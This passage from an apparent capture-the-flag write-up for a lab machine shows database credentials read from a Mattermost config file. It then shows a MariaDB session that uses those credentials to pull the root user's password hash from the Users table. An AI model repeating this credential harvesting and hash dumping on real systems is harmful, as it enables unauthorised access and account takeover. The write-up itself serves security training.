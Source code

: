       "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
      },

  * **DB creds:** `mmuser:Crack_The_MM_Admin_PW`

## mysql

* found root hash inside mattermost database. *here a small sql command [chart](http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm)*

```sql
maildeliverer@Delivery:~$ mysql -u mmuser -pCrack_The_MM_Admin_PW
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 130
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [mattermost]> use mattermost;
Database changed
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| ... [snip] ...         |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)

MariaDB [mattermost]> SELECT * FROM  Users WHERE Username = "root";
+----------------------------+---------------+---------------+----------+----------+--------------------------------------------------------------+----------+-------------+-------------------+---------------+----------+-----------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
```